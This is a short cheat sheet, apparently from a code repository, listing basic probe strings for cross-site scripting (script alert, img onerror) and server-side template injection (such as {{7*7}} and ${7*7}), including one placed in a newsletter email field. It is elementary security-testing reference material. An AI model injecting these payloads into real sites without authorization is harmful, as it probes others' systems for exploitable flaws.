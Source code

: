 ## to check xss vulnerability:

```
<script>alert('hacked')</script>

<img src=x onerror=alert()>${{7*7}}

```

## SSTI

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
 - ### SSTI in newsletter
 ```
 {{7*7}}@test.com
 ```
